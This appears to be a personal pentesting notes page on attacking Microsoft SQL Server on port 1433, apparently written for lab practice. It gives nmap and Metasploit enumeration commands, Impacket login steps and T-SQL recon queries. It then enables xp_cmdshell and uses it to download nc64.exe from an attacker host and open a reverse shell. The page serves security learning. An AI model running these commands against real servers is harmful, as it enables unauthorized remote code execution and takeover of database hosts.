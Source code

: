 ```yaml
---
title: 1433 msSQL
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - mssql
  - port 1433
  - impacket
---
```


# 1433 msSQL

## Enumeration

Basic enumeration:

```bash
nmap -Pn -sV -sC -p1433 $ip
```


If you don't know anything about the service:

```bash
nmap --script ms-sql-info,ms-sql-empty-password,ms-sql-xp-cmdshell,ms-sql-config,ms-sql-ntlm-info,ms-sql-tables,ms-sql-hasdbaccess,ms-sql-dac,ms-sql-dump-hashes --script-args mssql.instance-port=1433,mssql.username=sa,mssql.password=,mssql.instance-name=MSSQLSERVER -sV -p 1433 $ip

sudo nmap --script ms-sql-info,ms-sql-empty-password,ms-sql-xp-cmdshell,ms-sql-config,ms-sql-ntlm-info,ms-sql-tables,ms-sql-hasdbaccess,ms-sql-dac,ms-sql-dump-hashes --script-args mssql.instance-port=1433,mssql.username=sa,mssql.password=,mssql.instance-name=MSSQLSERVER -sV -p 1433 $ip

```

We can also use Metasploit to run an auxiliary scanner called `mssql_ping` that will scan the MSSQL service and provide helpful information in our footprinting process.

#### MSSQL Ping in Metasploit

```shell-session
msf6 auxiliary(scanner/mssql/mssql_ping) > set rhosts 10.129.201.248

rhosts => 10.129.201.248


msf6 auxiliary(scanner/mssql/mssql_ping) > run

[*] 10.129.201.248:       - SQL Server information for 10.129.201.248:
[+] 10.129.201.248:       -    ServerName      = SQL-01
[+] 10.129.201.248:       -    InstanceName    = MSSQLSERVER
[+] 10.129.201.248:       -    IsClustered     = No
[+] 10.129.201.248:       -    Version         = 15.0.2000.5
[+] 10.129.201.248:       -    tcp             = 1433
[+] 10.129.201.248:       -    np              = \\SQL-01\pipe\sql\query
[*] 10.129.201.248:       - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

#### Connecting with Mssqlclient.py

If we can guess or gain access to credentials, this allows us to remotely connect to the MSSQL server and start interacting with databases using T-SQL (`Transact-SQL`). Authenticating with MSSQL will enable us to interact directly with databases through the SQL Database Engine. From Pwnbox or a personal attack host, we can use Impacket's mssqlclient.py to connect as seen in the output below. Once connected to the server, it may be good to get a lay of the land and list the databases present on the system.

```bash
python3 mssqlclient.py Administrator@10.129.201.248 -windows-auth  
# With python3 mssqlclient.py help you can see more options.
```

## Basic mssql commands 

```
# Get Microsoft SQL server version
select @@version;

# Get usernames
select user_name();

# Get databases
SELECT name FROM master.dbo.sysdatabases;

# Get current database
SELECT DB_NAME();

# Get a list of users in the domain
SELECT name FROM master..syslogins

# Get a list of users that are sysadmins
 SELECT name FROM master..syslogins WHERE sysadmin = 1;

# And to make sure: 
SELECT is_srvrolemember(‘sysadmin’); 
# If your user is admin, it will return 1.
```

## Executing cmd shell in a SQL command line

Our goal can be to spawn a Windows command shell and pass in a string for execution. For that Microsoft SQL syntaxis has the command **xp_cmdshell**, that will allow us to use the SQL command line as a CLI. 

Because malicious users sometimes attempt to elevate their privileges by using xp_cmdshell, xp_cmdshell is disabled by default. But we can use sp_configure or Policy Based Management to enable it. 

**sp_configure** displays or changes global configuration settings for the current settings. This is how you may take advantage of it:

```msSQL
# To allow advanced options to be changed.   
EXECUTE sp_configure 'show advanced options', 1;  
  
# To update the currently configured value for advanced options.  
RECONFIGURE;  

# To enable the feature.  
EXECUTE sp_configure 'xp_cmdshell', 1;  
  
# To update the currently configured value for this feature.  
RECONFIGURE;  
```

Now we can use the msSQL terminal to execute commands:

```msSQL
# This will return the .exe files existing in the current directory
EXEC xp_cmdshell 'dir *.exe';

# To print a file
EXECUTE xp_cmdshell 'type c:\Users\sql_svc\Desktop\user.txt

# With this (and a "python3 -m http.server 80" from our kali serving a file) we can upload a file to the attacked machine, for instance a reverse shell like nc64.exe
xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; wget http://IPfromOurKali/nc64.exe -outfile nc64.exe";

# We could also bind this cmd.exe through the nc to our listener. For that open a different tab in kali and do a "nc -lnvp 443". When launching the reverse shell, we'll get a powershell terminal in this tab by running:
xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; .\nc64.exe -e cmd.exe IPfromOurKali 443";
# You could also upload winPEAS and run it from this powershell command line
```


## Sources and resources

+ [nc64.exe](https://github.com/vinsworldcom/NetCat64/releases).
+ [Impacket](impacket.md): mssqlclient.py.  
+ [Pentesmonkey Cheat sheet](https://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet).
+ [book.hacktricks.xyz](https://book.hacktricks.xyz/network-services-pentesting/pentesting-mssql-microsoft-sql-server).
+ [winPEAS](winpeas.md).
